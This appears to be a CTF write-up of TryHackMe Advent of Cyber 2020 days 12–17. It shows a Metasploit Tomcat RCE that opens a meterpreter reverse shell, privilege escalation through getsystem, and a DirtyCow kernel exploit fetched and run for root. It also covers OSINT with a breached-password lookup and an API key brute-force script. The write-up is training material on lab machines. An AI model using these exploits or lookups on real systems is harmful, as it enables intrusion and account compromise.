> Learn how vulnerabilities can be identified, use public knowledgebases to search for exploits and leverage these on this Windows box; So quit slackin' and get whackin'!

IP: `10.10.143.182`

### Vulnerability Knowledge Bases

Examples include:
- Rapid7
- AttackerKB
- MITRE
- Exploit-DB

### Basic enumeration

Before we begin, we ping the machine:

```
bluemoon@dragonfly:~/ctf/thm/thm-advent/day12-ready-set-elf$ ping 10.10.143.182
PING 10.10.143.182 (10.10.143.182) 56(84) bytes of data.
^C
--- 10.10.143.182 ping statistics ---
4 packets transmitted, 0 received, 100% packet loss, time 3065ms
```

Interesting, this machine doesn't respond to ping requests... anyways, we shall forge ahead.

First, we can use Nmap to scan the machine.

```
nmap -sC -sV -Pn -oN nmap.log 10.10.143.182
```

We get the following results:

```log
# Nmap 7.80 scan initiated Sat Dec 12 14:14:26 2020 as: nmap -sC -sV -Pn -oN nmap.log 10.10.143.182
Nmap scan report for 10.10.143.182
Host is up (0.11s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: TBFC-WEB-01
|   NetBIOS_Domain_Name: TBFC-WEB-01
|   NetBIOS_Computer_Name: TBFC-WEB-01
|   DNS_Domain_Name: tbfc-web-01
|   DNS_Computer_Name: tbfc-web-01
|   Product_Version: 10.0.17763
|_  System_Time: 2020-12-12T19:14:46+00:00
| ssl-cert: Subject: commonName=tbfc-web-01
| Not valid before: 2020-11-27T01:29:04
|_Not valid after:  2021-05-29T01:29:04
|_ssl-date: 2020-12-12T19:14:47+00:00; -1s from scanner time.
8009/tcp open  ajp13         Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http          Apache Tomcat 9.0.17
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.17
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 12 14:14:48 2020 -- 1 IP address (1 host up) scanned in 21.81 seconds
```

### What is the version number of the web server?

We can see the HTTP Apache Tomcat server is running on port 8080. In the Nmap scan, we can also see that the version number is `9.0.17`.

Here is what the webpage looks like if we open it in a browser:



Based on the lesson writeup from CMNatic, I also check out `http://10.10.143.182:8080/cgi-bin/elfwhacker.bat` and I found this:

```
-------------------------------------------------------
Written by ElfMcEager for The Best Festival Company ~CMNatic
-------------------------------------------------------

Current time: 12/12/2020 20:33:34.06

-------------------------------------------------------
                 Debugging Information
-------------------------------------------------------
Hostname: TBFC-WEB-01
User: tbfc-web-01\elfmcskidy

-------------------------------------------------------
                  ELF WHACK COUNTER
-------------------------------------------------------

 Number of Elves whacked and sent back to work: 31469
```

### Finding the vulnerability using searchsploit

I used [CVE Details](https://www.cvedetails.com/version/280286/Apache-Tomcat-9.0.17.html) to find the vulnerabilities affecting `Apache Tomcat v9.0.17`.



I then found out that [`CVE-2019-0232`](https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-887/version_id-280286/year-2019/opec-1/Apache-Tomcat-9.0.17.html) would allow me to gain remote code execution.



The description say:

```
When running on Windows with enableCmdLineArguments enabled, the CGI Servlet in Apache Tomcat 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39 and 7.0.0 to 7.0.93 is vulnerable to Remote Code Execution due to a bug in the way the JRE passes command line arguments to Windows. The CGI Servlet is disabled by default. The CGI option enableCmdLineArguments is disable by default in Tomcat 9.0.x (and will be disabled by default in all versions in response to this vulnerability). For a detailed explanation of the JRE behaviour, see Markus Wulftange's blog (https://codewhitesec.blogspot.com/2016/02/java-and-command-line-injections-in-windows.html) and this archived MSDN blog (https://web.archive.org/web/20161228144344/https://blogs.msdn.microsoft.com/twistylittlepassagesallalike/2011/04/23/everyone-quotes-command-line-arguments-the-wrong-way/).
```

### Running the exploit using Metasploit

We start metasploit by running `msfconsole`.

First, we search and select the exploit we would like to use:

```
msf6 > search 2019-0232

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/windows/http/tomcat_cgi_cmdlineargs  2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability


msf6 > use exploit/windows/http/tomcat_cgi_cmdlineargs
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) >
```

Next, let's check out which options we need to set:

```
msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > show options

Module options (exploit/windows/http/tomcat_cgi_cmdlineargs):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI path to CGI script
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.57.163    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Apache Tomcat 9.0 or prior for Windows
```

We need to set the `RHOST` to the THM box, the `LHOST` to my Try Hack Me IP address and the `TARGETURI` to `/cgi-bin/elfwhacker.bat`.

```
msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > set RHOSTS 10.10.143.182
RHOSTS => 10.10.143.182
msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > set LHOSTS 10.6.23.34
LHOST => 10.6.23.34
msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > set TARGETURI /cgi-bin/elfwhacker.bat
TARGETURI => /cgi-bin/elfwhacker.bat
```

Then, I can run the exploit to get a shell!

```
msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > run

[*] Started reverse TCP handler on 10.6.23.34:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Command Stager progress -   6.95% done (6999/100668 bytes)
[*] Command Stager progress -  13.91% done (13998/100668 bytes)
[*] Command Stager progress -  20.86% done (20997/100668 bytes)
[*] Command Stager progress -  27.81% done (27996/100668 bytes)
[*] Command Stager progress -  34.76% done (34995/100668 bytes)
[*] Command Stager progress -  41.72% done (41994/100668 bytes)
[*] Command Stager progress -  48.67% done (48993/100668 bytes)
[*] Command Stager progress -  55.62% done (55992/100668 bytes)
[*] Command Stager progress -  62.57% done (62991/100668 bytes)
[*] Command Stager progress -  69.53% done (69990/100668 bytes)
[*] Command Stager progress -  76.48% done (76989/100668 bytes)
[*] Command Stager progress -  83.43% done (83988/100668 bytes)
[*] Command Stager progress -  90.38% done (90987/100668 bytes)
[*] Command Stager progress -  97.34% done (97986/100668 bytes)
[*] Command Stager progress - 100.02% done (100692/100668 bytes)
[*] Sending stage (175174 bytes) to 10.10.143.182
[*] Meterpreter session 1 opened (10.6.23.34:4444 -> 10.10.143.182:49907) at 2020-12-12 15:39:53 -0500

meterpreter > shell
Process 3992 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi-bin>whoami
whoami
tbfc-web-01\elfmcskidy

```

### Getting the flag

Now that we have a Windows Command Prompt, the real challenge has begun: actually using it LOL (ok, you see, i'm much more comfortable in a UNIX terminal...)

We use `dir` and `type` instead of `ls` and `cat` respectively.

```
C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi-bin>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 4277-4242

 Directory of C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi-bin

12/12/2020  20:39    <DIR>          .
12/12/2020  20:39    <DIR>          ..
19/11/2020  21:39               825 elfwhacker.bat
19/11/2020  22:06                27 flag1.txt
12/12/2020  20:39            73,802 vzlXv.exe
               3 File(s)         74,654 bytes
               2 Dir(s)  13,497,925,632 bytes free

C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi-bin>type flag1.txt
type flag1.txt
thm{whacking_all_the_elves}
```

And now we have the flag!

Flag: `thm{whacking_all_the_elves}`

### Privilege Escalation

There is an extra challenge! Privilege escalation was actually made very very simple with Metasploit.

```
meterpreter > getuid
Server username: TBFC-WEB-01\elfmcskidy
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

(note: since this is a windows box, `NT AUTHORITY\SYSTEM == root`)

Although, I assume there is another flag2.txt or something on this box, unfortunately, I was not able to find it...

## Day 13: Coal for Christmas

*Category: Special*  
*Tags: DirtyCow, Privilege Escalation*  
*Special Contributer: John Hammond*

> Kris Kringle checked his Naughty or Nice List, and he saw that more than a few sysadmins were on the naughty list! He went down the chimney and found old, outdated software, deprecated technologies and a whole environment that was so dirty! Take a look at this server and help prove that this house really deserves coal for Christmas!

IP: `10.10.49.209`

### Basic enumeration

We start off with a basic Nmap scan

```sh
nmap -sC -sV -oN nmap.log 10.10.49.209
```

We get the following output:
```log
# Nmap 7.80 scan initiated Sun Dec 13 13:35:26 2020 as: nmap -sC -sV -oN nmap.log 10.10.49.209
Nmap scan report for 10.10.49.209
Host is up (0.11s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
23/tcp  open  telnet  Linux telnetd
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          43633/udp6  status
|   100024  1          50615/tcp6  status
|   100024  1          52966/udp   status
|_  100024  1          58940/tcp   status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 13 13:35:53 2020 -- 1 IP address (1 host up) scanned in 27.48 seconds
```

#### What old, deprecated protocol and service is running?

We can see `telnet` running on port 23. Telnet is the predecessor to SSH. However, unlike SSH, it is unencrypted which means that `stdin` and `stdout` are sent in clear text.

### Getting a shell

We can use telnet to get a shell

```
telnet 10.10.49.209 23
```

Once we attempt to connect, it gives us a username and password!

```
Trying 10.10.49.209...
Connected to 10.10.49.209.
Escape character is '^]'.
HI SANTA!!! 

We knew you were coming and we wanted to make
it easy to drop off presents, so we created
an account for you to use.

Username: santa
Password: clauschristmas

We left you cookies and milk!
```

Credentials: `santa:clauschristmas`

If we log in with these credentials, we get shell!

```
Last login: Sat Nov 21 20:37:37 UTC 2020 from 10.0.2.2 on pts/2
                \ / 
              -->*<-- 
                /o\ 
               /_\_\ 
              /_/_0_\ 
             /_o_\_\_\ 
            /_/_/_/_/o\ 
           /@\_\_\@\_\_\ 
          /_/_/O/_/_/_/_\ 
         /_\_\_\_\_\o\_\_\ 
        /_/0/_/_/_0_/_/@/_\ 
       /_\_\_\_\_\_\_\_\_\_\ 
      /_/o/_/_/@/_/_/o/_/0/_\ 
               [___] 
   
$ whoami
santa
```

### More enumeration

As suggested, we read `/etc/*release` and run `uname -a` to find info about the system.

```
$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=12.04
DISTRIB_CODENAME=precise
DISTRIB_DESCRIPTION="Ubuntu 12.04 LTS"
$ uname -a
Linux christmas 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

As we can see, this machine is running `Ubuntu 12.04`.

### Poking around the filesystem

First, let's list the files in the current working directory (Santa's home directory)

```
$ ls -al
total 20
drwxr-xr-x 3 santa santa 4096 Nov 21 20:37 .
drwxr-xr-x 3 root  root  4096 Nov 21 20:37 ..
drwx------ 2 santa santa 4096 Nov 21 20:37 .cache
-rwxr-xr-x 1 santa santa 1422 Nov 21 20:37 christmas.sh
-rw-r--r-- 1 santa santa 2925 Nov 21 20:37 cookies_and_milk.txt
```

Let's read some of these file! Since the files were very long, I have put them into the day13-coal-for-christmas directory.

Unfortunately, it the `grinch` seems to have gotten to the cookies and milk first.

### DirtyCOW (CVE-2016-5195)

Since this a relatively old version of Ubuntu that has passed the end of service, there could be a vulnerable Linux kernel exploit.

| Version      | Code Name        | Release    | End of life |
|--------------|------------------|------------|-------------|
| Ubuntu 20.04 | Focal Fossa      | April 2020 | TBA         |
| Ubuntu 18.04 | Bionic Beaver    | April 2018 | April 2028  |
| Ubuntu 16.04 | Xenial Xerus     | April 2016 | April 2024  |
| Ubuntu 14.04 | Trusty Tahr      | April 2014 | April 2022  |
| Ubuntu 12.04 | Precise Pangolin | April 2012 | April 2017  |

The dossier writes:

>That C source code is a portion of a kernel exploit called DirtyCow. Dirty COW (CVE-2016-5195) is a privilege escalation vulnerability in the Linux Kernel, taking advantage of a race condition that was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.  

>This cookies_and_milk.txt file looks like a modified rendition of a DirtyCow exploit, usually written in C. Find a copy of that original file online, and get it on the target box. You can do this with some simple file transfer methods like netcat, or spinning up a quick Python HTTP server... or you can simply copy-and-paste it into a text editor on the box!

So, I found [`dirty.c`](https://github.com/FireFart/dirtycow/blob/master/dirty.c) on GitHub from FireFart. I used wget to [download](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c) it from GitHub. Then I set up an http-server* for file transfer.

*I prefer using http-server since it a shorter command and it automatically reminds me of the IP and port on start. You could also use netcat or Python HTTP server as suggested.

```
bluemoon@dragonfly:~/ctf/thm/thm-advent/day13-coal-for-christmas$ wget "https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c"
--2020-12-13 14:14:26--  https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.124.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.124.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4815 (4.7K) [text/plain]
Saving to: ‘dirty.c’

dirty.c                     100%[========================================>]   4.70K  --.-KB/s    in 0s      

2020-12-13 14:14:26 (38.1 MB/s) - ‘dirty.c’ saved [4815/4815]

bluemoon@dragonfly:~/ctf/thm/thm-advent/day13-coal-for-christmas$ http-server
Starting up http-server, serving ./
Available on:
  http://127.0.0.1:8080
  http://172.16.57.163:8080
  http://10.6.23.34:8080
Hit CTRL-C to stop the server
[Sun Dec 13 2020 14:17:03 GMT-0500 (Eastern Standard Time)]  "GET /dirty.c" "Wget/1.13.4 (linux-gnu)"
^Chttp-server stopped.
```

Then on the victim box, I can simply use wget to pull the file over.

```
$ wget 10.6.23.34:8080/dirty.c
--2020-12-13 19:17:03--  http://10.6.23.34:8080/dirty.c
Connecting to 10.6.23.34:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4815 (4.7K) [text/x-c]
Saving to: `dirty.c'

100%[===================================================================>] 4,815       --.-K/s   in 0.001s  

2020-12-13 19:17:03 (4.99 MB/s) - `dirty.c' saved [4815/4815]
```

As suggested by the comments in the source code of dirty.c, we can compile it with gcc and then run it.

```sh
gcc -pthread dirty.c -o dirty -lcrypt
```

```./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fi.zNBXcdv/Sk:0:0:pwned:/root:/bin/bash

mmap: 7fc44dd38000
```

We have now created a user with root privileges called `firefart` with a password of out choosing. We can then switch also switch to this user.

```
$ su firefart
Password: 
firefart@christmas:/home/santa#
```

Now let's check out our home directory (aka `/root`).

```
firefart@christmas:~# cd ~/
firefart@christmas:~# pwd
/root
firefart@christmas:~# ll
total 24
drwx------  2 firefart root 4096 Nov 21 20:38 ./
drwxr-xr-x 24 firefart root 4096 Nov 21 20:38 ../
-rw-------  1 firefart root    0 Nov 21 20:38 .bash_history
-rw-r--r--  1 firefart root 3106 Apr 19  2012 .bashrc
-rwxr-xr-x  1 firefart root 1422 Nov 21 20:37 christmas.sh*
-rw-r--r--  1 firefart root  611 Nov 21 20:37 message_from_the_grinch.txt
-rw-r--r--  1 firefart root  140 Apr 19  2012 .profile
```

### Getting the flag

Let's read the `message_from_the_grinch.txt`...

```
Nice work, Santa!

Wow, this house sure was DIRTY!
I think they deserve coal for Christmas, don't you?
So let's leave some coal under the Christmas `tree`!

Let's work together on this. Leave this text file here,
and leave the christmas.sh script here too...
but, create a file named `coal` in this directory!
Then, inside this directory, pipe the output
of the `tree` command into the `md5sum` command.

The output of that command (the hash itself) is
the flag you can submit to complete this task
for the Advent of Cyber!

        - Yours,
                John Hammond
                er, sorry, I mean, the Grinch

          - THE GRINCH, SERIOUSLY
```

Ok then, I guess I'll do what he say...

```
firefart@christmas:~# touch coal
firefart@christmas:~# tree
.
|-- christmas.sh
|-- coal
`-- message_from_the_grinch.txt

0 directories, 3 files
firefart@christmas:~# tree | md5sum
8b16f00dd3b51efadb02c1df7f8427cc
```

Flag: `8b16f00dd3b51efadb02c1df7f8427cc`

## Day 14: Where's Rudolph

*Category: Special*  
*Tags: OSINT*  
*Special Contributor: The Cyber Mentor*

> Twas the night before Christmas and Rudolph is lost Now Santa must find him, no matter the cost You have been hired to bring Rudolph back How are your OSINT skills? Follow Rudolph's tracks...

### Reddit

All we are given is a Reddit username: `IGuidetheClaus2020`

We can view his Reddit account here: `https://www.reddit.com/user/IGuidetheClaus2020`  
And we can view his comment history here: `https://www.reddit.com/user/IGuidetheClaus2020/comments/`

Looking through his comment history, we can see that he was born in `Chicago`.  

If we do a Google search for `robert the creator of rudolph`, we find that Robert's full name is `Robert L. May`  

If we search his username of Google, we find his Twitter account: `@IGuideClaus2020`

### Twitter

We can view his Twitter account here: `https://twitter.com/IGuideClaus2020`

We learn that Rudolph's favorite TV show is the `Bachelorette`  

### Photo EXIF Data


If we reverse Google Image search for the parade image, we find this [news article](https://www.thompsoncoburn.com/news-events/news/2019-12-09/thompson-coburn-floats-down-michigan-avenue-in-first-magnificent-mile-lights-festival-appearance) that tells us that the parade took place in `Chicago, IL`.

We can run `exiftool` to get more info about the image.

```
bluemoon@dragonfly:~/ctf/thm/thm-advent/day14-wheres-rudolph$ wget https://tcm-sec.com/wp-content/uploads/2020/11/lights-festival-website.jpg
--2020-12-14 11:31:29--  https://tcm-sec.com/wp-content/uploads/2020/11/lights-festival-website.jpg
Resolving tcm-sec.com (tcm-sec.com)... 70.32.23.61
Connecting to tcm-sec.com (tcm-sec.com)|70.32.23.61|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 51161 (50K) [image/jpeg]
Saving to: ‘lights-festival-website.jpg’

lights-festival-website.jpg                             100%[============================================================================================================================>]  49.96K  --.-KB/s    in 0.07s   

2020-12-14 11:31:29 (693 KB/s) - ‘lights-festival-website.jpg’ saved [51161/51161]

bluemoon@dragonfly:~/ctf/thm/thm-advent/day14-wheres-rudolph$ exiftool lights-festival-website.jpg 
ExifTool Version Number         : 11.88
File Name                       : lights-festival-website.jpg
Directory                       : .
File Size                       : 50 kB
File Modification Date/Time     : 2020:11:25 10:07:43-05:00
File Access Date/Time           : 2020:12:14 11:32:24-05:00
File Inode Change Date/Time     : 2020:12:14 11:31:29-05:00
File Permissions                : rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
X Resolution                    : 72
Y Resolution                    : 72
Exif Byte Order                 : Big-endian (Motorola, MM)
Resolution Unit                 : inches
Y Cb Cr Positioning             : Centered
Copyright                       : {FLAG}ALWAYSCHECKTHEEXIFD4T4
Exif Version                    : 0231
Components Configuration        : Y, Cb, Cr, -
User Comment                    : Hi. :)
Flashpix Version                : 0100
GPS Latitude Ref                : North
GPS Longitude Ref               : West
Image Width                     : 650
Image Height                    : 510
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 650x510
Megapixels                      : 0.332
GPS Latitude                    : 41 deg 53' 30.53" N
GPS Longitude                   : 87 deg 37' 27.40" W
GPS Position                    : 41 deg 53' 30.53" N, 87 deg 37' 27.40" W
```

We can find the coordinates of the photo to be `41.891815, -87.624277`.  

Ooh, we also find a flag!

Flag: `{FLAG}ALWAYSCHECKTHEEXIFD4T4`

### Finding Rudolph's Password

On Rudolph's Twitter, we find his email: `rudolphthered@hotmail.com`  

We can use `https://scylla.sh/api` to find a password. `rudolphthered@hotmail.com:spygame`.

### Finding Rudolph's location

We can use [Google Maps](https://www.google.com/maps/place/41%C2%B053'30.5%22N+87%C2%B037'27.4%22W/@41.8918056,-87.6264665,17z/data=!3m1!4b1!4m5!3m4!1s0x0:0x0!8m2!3d41.8918056!4d-87.6242778) and the coordinates to find the Hotel that Rudolph is in.


Turns out, the address for the hotel is `540 North Michigan Avenue, Chicago, Illinois 60611 USA`

## Day 15: There's a Python in my stocking!

*Category: Scripting*  
*Tags: Python*

>Utilise Santa's favourite type of snake: Pythons to become a scripting master expert!

### What's the output of `True + True`?

Since the value of True is 1 and 1 + 1 == 2, the Python interpreter says that `True + True == 2`

```
>>> True + True
2
```

### What's the database for installing other peoples libraries called?

The [Python Package Index (PyPi)](https://pypi.org/) is the database connected to `pip`/`pip3`.

### What is the output of bool("False")?

`"False"` is actually a string and the boolean representation of a string is `True`

```
>>> bool("False")
True
```

### What library lets us download the HTML of a webpage?

The `requests` library allows us to send HTTP requests in Python.

It can be installed by running `pip3 install requests`.

### What is the output of the program provided in "Code to analyse for Question 5" in today's material?

Easiest way to find out is just to run it.

```
bluemoon@dragonfly:~/ctf/thm/thm-advent/day15-theres-a-python-in-my-stocking$ python3 script.py 
[1, 2, 3, 6]
```

#### What causes the previous task to output that?

In Python, and many other languages, lists are just a pointer to an address in memory and when we set one list equal to another we are pointing to the same list in memory. This is called `pass by reference`.

## Day 16: Help! Where is Santa?

*Category: Scripting*  
*Tags: Requests*

>Santa appears to have accidentally told Rudolph to take off, leaving the elves stranded! Utilise Python and the power of APIs to track where Santa is, and help the elves get back to their sleigh!

IP: `10.10.135.149`

### Basic enumeration

Firstly, let's run the Nmap scan!

```
nmap -sC -sV -vvv -oN nmap.log 10.10.135.149
```

We see that the web server is running on port `8000`.

### Visiting the webpage

We type `http://10.10.135.149:8000/static/index.html` into the webpage and we find the following.



### Finding Santa's Location

Well, we could just view the page source to find the correct link, I reckon we could do it much easier in with Python.

```py
import requests as r
from bs4 import BeautifulSoup

url = "http://10.10.135.149:8000"

page = r.get(url)
page = BeautifulSoup(page.text, "html.parser")

links = page.find_all("a")
for i in links:
    if i.get("href") not in ["#", "https://tryhackme.com"]:
        print(i.get("href"))
```

We find that the secret link is `http://machine_ip/api/api_key`

### Finding the API endpoint

We can find the API endpoint at `10.10.135.149:8000/api/`

### Finding Santa's Location

To find the API key, I wrote a simple Python script.

```py
import requests as r

url = "http://10.10.135.149:8000/api/"

for i in range(1, 100, 2):
    response = r.get(url + str(i))
    if 'Error. Key not valid!' not in response.text:
        print(f"API Key: {i}")
        print(response.text)
```

And we get the following output:

```
API Key: 57
{"item_id":57,"q":"Winter Wonderland, Hyde Park, London."}
```

## Day 17: ReverseELFneering

*Category: Reverse Engineering*  
*Tags: GDB, Linux*

>Learn the basics of assembly and reverse engineer your first application!

IP: `10.10.197.43`

### Getting started

We are given the following credentials: `elfmceager:adventofcyber`. We can either work on the target instance using SSH or pull the files using SCP and work on our own machine.

```
ssh elfmceager@10.10.197.43
```
OR
```
scp elfmceager@10.10.197.43:~/file1 .
scp elfmceager@10.10.197.43:~/challenge1 .
```

### Practicing with file1

First we open the binary in radare2 debugging mode using this command: `r2 -d ./file1`

Next, we ask r2 to analyse the program with `aa`:
```
[0x00400a30]> aa
[ WARNING : block size exceeding max block size at 0x006ba220
[+] Try changing it with e anal.bb.maxsize
 WARNING : block size exceeding max block size at 0x006bc860
[+] Try changing it with e anal.bb.maxsize
[x] Analyze all flags starting with sym. and entry0 (aa)
```

Then, we can look for the main function and set a breakpoint.
```
[0x00400a30]> afl | grep main
0x00400b4d    1 68           sym.main
0x00400e10   10 1007 -> 219  sym.__libc_start_main
0x00403870   39 661  -> 629  sym._nl_find_domain
0x00403b10  308 5366 -> 5301 sym._nl_load_domain
0x00415fe0    1 43           sym._IO_switch_to_main_get_area
0x0044cf00    1 8            sym._dl_get_dl_main_map
0x00470520    1 49           sym._IO_switch_to_main_wget_area
0x0048fae0    7 73   -> 69   sym._nl_finddomain_subfreeres
0x0048fb30   16 247  -> 237  sym._nl_unload_domain
[0x00400a30]> pdf @main
            ;-- main:
/ (fcn) sym.main 68
|   sym.main ();
|           ; var int local_ch @ rbp-0xc
